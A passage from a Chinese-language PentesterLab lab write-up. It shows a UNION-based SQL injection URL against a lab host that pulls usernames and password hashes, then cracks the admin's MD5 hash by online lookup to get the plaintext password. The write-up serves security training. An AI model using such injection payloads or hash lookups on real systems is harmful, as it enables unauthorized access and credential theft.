         ![](img/concat.png)

    10. 获取网站可用用户名和对应密码
        
        URL：`http://192.168.56.5/cat.php?id=3 UNION SELECT 1,concat(login,': ',password),3,4 FROM users`

        ![](img/password.png)

        得到一组可用用户名与密码：
        * 用户名：admin
        * 加密后密码：8efe310f9ab3efeae8d410a8e0166eb2

## 4.密码破解
* 给出两种方法可试
    * 搜索引擎直接搜索哈希值

        大概是PentesterLab上的这个实验太多人做过了，用百度搜索提供的哈希值可直接查到加密方式是MD5，破解得到的密码为`P4ssw0rd`

        [MD5破解结果](https://md5.gromweb.com/?md5=8efe310f9ab3efeae8d410a8e0166eb2)
